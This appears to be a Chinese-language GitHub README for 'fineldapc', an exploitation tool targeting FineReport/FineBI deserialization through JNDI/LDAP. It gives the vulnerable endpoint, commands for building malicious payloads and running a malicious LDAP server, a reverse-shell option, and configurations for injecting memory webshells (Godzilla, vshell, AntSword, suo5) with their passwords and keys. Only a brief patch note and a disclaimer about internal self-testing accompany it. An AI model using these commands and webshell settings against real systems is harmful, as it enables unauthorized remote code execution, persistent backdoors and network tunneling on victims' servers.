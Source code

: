 ### fineldapc

```shell
  ▄████████  ▄█  ███▄▄▄▄      ▄████████  ▄█       ████████▄     ▄████████    ▄███████▄  ▄████████
  ███    ███ ███  ███▀▀▀██▄   ███    ███ ███       ███   ▀███   ███    ███   ███    ███ ███    ███
  ███    █▀  ███▌ ███   ███   ███    █▀  ███       ███    ███   ███    ███   ███    ███ ███    █▀
 ▄███▄▄▄     ███▌ ███   ███  ▄███▄▄▄     ███       ███    ███   ███    ███   ███    ███ ███
▀▀███▀▀▀     ███▌ ███   ███ ▀▀███▀▀▀     ███       ███    ███ ▀███████████ ▀█████████▀  ███
  ███        ███  ███   ███   ███    █▄  ███       ███    ███   ███    ███   ███        ███    █▄
  ███        ███  ███   ███   ███    ███ ███▌    ▄ ███   ▄███   ███    ███   ███        ███    ███
  ███        █▀    ▀█   █▀    ██████████ █████▄▄██ ████████▀    ███    █▀   ▄████▀      ████████▀
                                         ▀                                      power by unam4

漏洞路径: /webroot/decision/remote/design/channel

加载jsp依赖： /webroot/decision/file?path=org.apache.jasper.servlet.JasperInitializer&type=class

获取版本: /webroot/decision/system/info

生成恶意jndibin：java -jar fineldapc.jar -jndibinbin  [rmi|ldap]://host:port/obj

开启恶意ldap：java -jar fineldapc.jar -jndibin <port> <CLASS:classname>/<resershell:ip#port>/<FILE:filepath>

生成恶意类加载bin: java -jar fineldapc.jar -loadbin classname

classname: (fineBI都可以使用，finereport请用jsp类型)

tomcatecho (head头 Etags: base64enc(Command))
godzilla_mem    加密器: JAVA_AES_BASE64 密码: Hwtfhlitg 密钥: Loklewkvqbo 请求路径: /* 请求头: User-Agent: Orjuagk
suo5    (suo5 -d -l 0.0.0.0:7788 --auth test:test123 --ua 'Nuexq' -t http(s)://ip:port/webroot/decision)
vshell(agent): 加密器: JAVA_AES_BASE64 密码: Iddzfpe 密钥: Septtdzjura 请求路径: /* 请求头: Referer: Aiskhs 脚本类型: JSP
anstword  类型：jspjs 密码: b
suo5jsp: suo5 -t http://10.211.55.2:8075/webroot/tunnel.jsp
godzillajsp: 加密器: JAVA_AES_BASE64 密码: fine 密钥: ldapc 请求路径: /*

重要: !!!
免责声明 该工具仅用于安全自查检测
由于传播、利用此工具所提供的信息而造成的任何直接或者间接的后果及损失，均由使用者本人负责，作者不为此承担任何责任。
本人拥有对此工具的修改和解释权。未经网络安全部门及相关部门允许，不得善自使用本工具进行任何攻击活动，不得以任何方式将其用于商业目的。
该工具只授权于企业内部进行问题排查，请勿用于非法用途，请遵守网络安全法，否则后果作者概不负责
```
起恶意ldap 填写端口要加载class，或者 resershell:127.0.0.1#8888 进行反弹shell（win/linux 都行），FILE:filepath 用于返回指定的字节流。

生成bin

![image-20240901233223069](README/image-20240901233223069.png)

开启起ldap服务

![image-20240901233310493](README/image-20240901233310493.png)

攻击

![image-20240901232757401](README/image-20240901232757401.png)

**生产千万不要使用vshell(agent)**

![image-20240906202857923](README/image-20240906202857923.png)

![image-20240906202943055](README/image-20240906202943055.png)



![image-20240906203107835](README/image-20240906203107835.png)

![image-20240906203304224](README/image-20240906203304224.png)

![image-20240906203337102](README/image-20240906203337102.png)

![image-20240906203413750](README/image-20240906203413750.png)

### 原理

https://unam4.github.io/2024/06/23/%E6%9F%90%E6%8A%A5%E8%A1%A8%E6%9C%80%E6%96%B0%E5%8F%8D%E5%BA%8F%E5%88%97%E6%BC%8F%E6%B4%9E/
https://unam4.github.io/2024/06/03/%E6%96%B0jdk%E5%8E%9F%E7%94%9F%E5%85%A5%E5%8F%A3%E5%88%B0jndi/

### 修复
官网确认 2024-05以前版本受到影响，升级之后版本不收此漏洞影响。

### 免责声明
该工具仅用于安全自查检测

由于传播、利用此工具所提供的信息而造成的任何直接或者间接的后果及损失，均由使用者本人负责，作者不为此承担任何责任。

本人拥有对此工具的修改和解释权。未经网络安全部门及相关部门允许，不得善自使用本工具进行任何攻击活动，不得以任何方式将其用于商业目的。

该工具只授权于企业内部进行问题排查，请勿用于非法用途，请遵守网络安全法，否则后果作者概不负责
